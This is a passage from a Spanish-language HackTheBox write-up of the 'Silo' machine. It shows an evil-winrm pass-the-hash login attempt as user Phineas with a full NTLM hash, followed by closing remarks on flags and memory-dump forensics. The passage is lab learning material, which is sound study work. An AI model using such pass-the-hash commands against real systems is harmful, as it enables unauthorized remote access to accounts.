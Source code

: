 ![131bash_passhash_evilwinrm_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131bash_passhash_evilwinrm_admin.png)

Perfecto otra vez :) Volvamos a intentar con **Phineas** a veeeer:

```bash
❭ evil-winrm -i 10.10.10.82 -u Phineas -H 8eacdd67b77749e65d3b3d5c110b0969

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

Pero no, error de nuevo :(

...

Igual siendo administradores (y no siéndolo) podemos ver el contenido de **Phineas**.

Acá podríamos crearnos usuarios, mover registros, deshabilitar otros, jugar con privilegios, etc, jugar mucho. Pero por ahora, hemos terminado :D Solo nos queda ver las flags.

![131flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131flags.png)

...

Linda máquina, la parte forense me gusto mucho, pensar en el peligro de que se filtre un volcado de memoria. Me gusto mucho esa parte.

Y bueno, nos leeremos en otra ocasión, claro que si! Bendiciones y como siempreeeeeeeeeeeeeeeeeeeeeeee, a, seguir, rompiendo, todoooooooo.